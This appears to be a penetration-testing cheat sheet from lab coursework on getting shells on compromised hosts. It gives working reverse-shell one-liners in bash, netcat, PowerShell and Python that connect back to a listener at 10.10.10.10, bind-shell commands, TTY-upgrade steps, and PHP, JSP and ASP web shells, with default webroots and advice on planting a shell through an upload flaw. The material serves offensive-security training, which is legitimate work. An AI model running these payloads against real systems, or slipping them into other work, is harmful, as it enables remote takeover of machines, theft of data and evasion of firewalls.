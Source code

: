 | Commands                                                                           | Usage                                                          |
| ---------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| `nc -lvnp 1234`                                                                    | Start a `nc` listener on a local port                          |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                              | Send a reverse shell from the remote server                    |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`      | Start a bind shell on the remote server                        |
| `nc 10.10.10.1 1234`                                                               | Connect to a bind shell started on the remote server           |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                   | Upgrade shell TTY (1)                                          |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                        | Upgrade shell TTY (2)                                          |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                  | Create a webshell php file                                     |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                      | Execute a command on an uploaded webshell                      |

One way to connect to a compromised system is through network protocols, like `SSH` for Linux or `WinRM` for Windows, which would allow us a remote login to the compromised system (we must obtain a working set of login credentials).
The other method of accessing a compromised host for control and remote code execution is through shells.

| Type of Shell   | Method of Communication                                                                                                     |
| --------------- | --------------------------------------------------------------------------------------------------------------------------- |
| `Reverse Shell` | Connects back to our system and gives us control through a reverse connection.                                              |
| `Bind Shell`    | Waits for us to connect to it and gives us control once we do.                                                              |
| `Web Shell`     | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output. |
Once we find a vulnerability, we can check using `netcat`.
```shell
nc -lvnp 1234
```
Now that we have a `netcat` listener waiting for a connection, we can execute the reverse shell command that connects to us.
#### Reverse Shell Command
The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.
For Bash:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
OR
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
For PowerShell:
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


#### Bind Shell
Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.
The following are reliable commands we can use to start a bind shell:
For Bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
For Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
For PowerShell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.
```shell
nc 10.10.10.1 1234
```

#### Upgrading TTY
Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history.
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell
www-data@remotehost$ ^Z

0xDante@htb[/htb]$ stty raw -echo
0xDante@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

```shell
0xDante@htb[/htb]$ echo $TERM
--> xterm-256color

0xDante@htb[/htb]$ stty size
--> 67 318
```

```shell
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

#### Web Shell
A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back.
For php:
```php
<?php system($_REQUEST["cmd"]); ?>
```
For jsp:
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
For asp:
```asp
<% eval request("cmd") %>
```

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.
The following are the default webroots for common web servers:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\    |
| `XAMPP`    | C:\xampp\htdocs\       |
A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using.